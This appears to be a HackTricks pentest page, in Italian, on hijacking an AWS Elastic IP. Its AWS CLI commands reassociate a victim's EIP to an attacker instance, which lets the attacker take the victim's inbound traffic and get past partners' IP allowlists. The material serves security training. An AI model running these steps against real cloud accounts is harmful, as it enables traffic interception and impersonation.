 # AWS - Elastic IP Hijack for Ingress/Egress IP Impersonation

{{#include ../../../../banners/hacktricks-training.md}}

## Sommario

Abusa di `ec2:AssociateAddress` (e opzionalmente di `ec2:DisassociateAddress`) per riassegnare un Elastic IP (EIP) da un'istanza/ENI vittima a un'istanza/ENI dell'attaccante. Questo reindirizza il traffico in ingresso destinato all'EIP verso l'attaccante e permette anche all'attaccante di generare traffico in uscita con l'IP pubblico allowlisted per eludere i firewall dei partner esterni.

## Prerequisiti
- ID di allocazione (allocation ID) dell'EIP target nello stesso account/VPC.
- Istanza/ENI dell'attaccante che controlli.
- Permessi:
- `ec2:DescribeAddresses`
- `ec2:AssociateAddress` sull'EIP allocation-id e sull'istanza/ENI dell'attaccante
- `ec2:DisassociateAddress` (opzionale). Nota: `--allow-reassociation` dissocia automaticamente dall'allegato precedente.

## Attacco

Variabili
```bash
REGION=us-east-1
ATTACKER_INSTANCE=<i-attacker>
VICTIM_INSTANCE=<i-victim>
```
1) Assegnare o identificare l'EIP della vittima (il lab ne assegna uno nuovo e lo associa alla vittima)
```bash
ALLOC_ID=$(aws ec2 allocate-address --domain vpc --region $REGION --query AllocationId --output text)
aws ec2 associate-address --allocation-id $ALLOC_ID --instance-id $VICTIM_INSTANCE --region $REGION
EIP=$(aws ec2 describe-addresses --allocation-ids $ALLOC_ID --region $REGION --query Addresses[0].PublicIp --output text)
```
2) Verificare che l'EIP risolva attualmente al servizio della vittima (ad esempio controllando un banner)
```bash
curl -sS http://$EIP | grep -i victim
```
3) Riassegnare l'EIP all'attaccante (si disassocia automaticamente dalla vittima)
```bash
aws ec2 associate-address --allocation-id $ALLOC_ID --instance-id $ATTACKER_INSTANCE --allow-reassociation --region $REGION
```
4) Verifica che l'EIP ora risolva verso l'attacker service
```bash
sleep 5; curl -sS http://$EIP | grep -i attacker
```
Evidenza (associazione spostata):
```bash
aws ec2 describe-addresses --allocation-ids $ALLOC_ID --region $REGION \
--query Addresses[0].AssociationId --output text
```
## Impatto
- Inbound impersonation: Tutto il traffico diretto all'hijacked EIP viene recapitato all'istanza/ENI dell'attacker.
- Outbound impersonation: Attacker può iniziare traffico che sembra provenire dall'allowlisted public IP (utile per bypassare i filtri IP di partner/sorgenti esterne).

{{#include ../../../../banners/hacktricks-training.md}}
